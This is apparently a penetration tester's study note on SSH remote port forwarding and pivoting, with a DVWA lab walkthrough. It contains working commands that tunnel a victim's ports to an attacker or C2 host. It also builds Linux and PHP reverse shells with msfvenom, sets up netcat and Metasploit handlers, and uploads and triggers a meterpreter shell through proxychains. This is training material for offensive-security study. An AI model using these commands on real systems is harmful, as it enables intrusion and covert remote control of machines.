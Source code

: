 # Remote Port Forwarding

## 01 - Usage

```
user@pentestos:~$ cat /etc/ssh/sshd_config
..[truncated]..
GatewayPorts yes
..[truncated]..
```

### 1.1 - Syntax

#### 1.1.1 - Victim port forwarding to the attacker's SSH server

```
$ ssh -NTfCq -R [<bind_IP>:]<local_PORT>:<bind_remote_IP>:<bind_remote_PORT> <username>@<attacker_IP>
```

#### 1.1.2 - Remote Port forwarding reverse shells via SSH Tunnel as C2 Server

```
$ ssh -NTfCq -R <local_PORT>:127.0.0.1:<bind_remote_PORT> <username>@<C2_IP>
```

Generate a reverse callback shell and start a shell handler via `netcat`.

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

$ nc -lnvp <bind_remote_PORT>
```

Generate a reverse callback shell and start a shell handler via `metasploit-framework`.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

msf > use payload/linux/x86/meterpreter/reverse_tcp

msf payload(linux/x86/meterpreter/reverse_tcp) > set lhost <C2_IP>

msf payload(linux/x86/meterpreter/reverse_tcp) > set lport <bind_remote_PORT>

msf payload(linux/x86/meterpreter/reverse_tcp) > to_handler
```

## 02 - Scenarios

### 2.1 - Reverse SSH Tunneling

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
user@pentestos:~$ ssh fox@10.0.2.15

fox@ubuntulinux:~$ ssh -NTfCq -R 8888:192.168.56.106:80 -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" user@10.0.2.4
```

![[01 - Reverse Port Forwarding.png]]

```
fox@ubuntulinux:~$ ss -antp
State          Recv-Q         Send-Q                 Local Address:Port                    Peer Address:Port          Process
LISTEN         0              128                          0.0.0.0:22                           0.0.0.0:*
LISTEN         0              128                          0.0.0.0:8888                         0.0.0.0:*
ESTAB          0              0                           10.0.2.4:42586                      10.0.2.15:22             users:(("ssh",pid=5282,fd=3))
ESTAB          0              0                           10.0.2.4:22                         10.0.2.15:44498
LISTEN         0              128                             [::]:22                              [::]:*
LISTEN         0              128                             [::]:8888                            [::]:*
```

Grab the port using [[Local Port Forwarding|local port forwarding]] method. Then navigate through the web browser.

```
user@pentestos:~$ ssh -L 8888:127.0.0.1:8888 fox@10.0.2.15
```

### 2.2 - Reverse SSH Tunnel via Reverse Callback Shell

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
user@pentestos:~$ ssh fox@10.0.2.15 -NTfCq -D1080 -R 192.168.56.111:4455:127.0.0.1:4445
```

![[01 - Reverse Shell Tunnel.png]]

```
user@pentestos:~$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.111 lport=4455 -f raw -o rsh.php
```

Launch a shell handler in metasploit for incoming sessions.

```
msf6 > use exploit/mutli/handler
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set lhost 192.168.56.111
lhost => 192.168.56.111
msf6 > exploit(multi/handler) > set lport 4445
lport => 4445
msf6 > exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[-] Handler failed to bind to 192.168.56.111:4445:-  -
[*] Started reverse TCP handler on 0.0.0.0:4445
```

Upload the reverse shell.

![[02 - PHP File Upload.png]]

Edit the Proxychains configuration.

```
user@pentestos:~$ cat /etc/proxychains4.conf
..[truncated]..
socks5  127.0.0.1 1080
```

Then execute the reverse shell.

```
user@pentestos:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.106:80  ...  OK

user@pentestos:~$ curl --socks5 127.0.0.1:1080 -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
```

We have established a meterpreter reverse shell.

![[03 - MSF Reverse Callback Shell.png]]

---
## References

- [LinuxHint: SSH StrickHostKeyChecking](https://linuxhint.com/ssh-stricthostkeychecking/)

- [SkyDogCon 2017: "SSH+MSF+TOR = Anonymous Remote Shells" by Catatonic Prime](https://www.youtube.com/watch?v=RvZ9-hD-KZw)

- [PayloadsAllTheThings: Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [FareedFauzi OSCP Playbook: Port Forwarding SSH Tunneling](https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling)

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

- [Bryan Leong (NobodyAtall): Network Pivoting Using SSH Return Reverse Shell From Internal Network Machine](https://bryanleong98.medium.com/network-pivoting-using-ssh-return-reverse-shell-from-internal-network-machine-f1c5043b2d86)

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)